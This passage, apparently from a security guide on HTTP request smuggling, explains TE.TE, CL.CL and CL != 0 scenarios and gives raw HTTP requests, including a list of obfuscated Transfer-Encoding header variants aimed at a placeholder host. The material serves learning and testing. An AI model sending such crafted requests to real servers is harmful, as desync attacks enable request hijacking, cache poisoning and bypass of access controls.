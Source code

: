     - **Example:**
        
        Copy
        
        ```
        POST / HTTP/1.1
        Host: vulnerable-website.com
        Transfer-Encoding: xchunked
        Transfer-Encoding : chunked
        Transfer-Encoding: chunked
        Transfer-Encoding: x
        Transfer-Encoding: chunked
        Transfer-Encoding: x
        Transfer-Encoding:[tab]chunked
        [space]Transfer-Encoding: chunked
        X: X[\n]Transfer-Encoding: chunked
        
        Transfer-Encoding
        : chunked
        ```

#### **CL.CL Scenario (Content-Length used by both Front-End and Back-End):**

- Both servers process the request based solely on the `Content-Length` header.
    
- This scenario typically does not lead to smuggling, as there's alignment in how both servers interpret the request length.
    
- Example:
    
    
    
    ```
    POST / HTTP/1.1
    Host: vulnerable-website.com
    Content-Length: 16
    Connection: keep-alive
    
    Normal Request
    ```
    
#### **CL != 0 Scenario:**

- Refers to scenarios where the `Content-Length` header is present and has a value other than zero, indicating that the request body has content.
    
- It's crucial in understanding and crafting smuggling attacks, as it influences how servers determine the end of a request.
    
- **Example:**
    
    Copy
    
    ```
    POST / HTTP/1.1
    Host: vulnerable-website.com
    Content-Length: 16
    Connection: keep-alive
    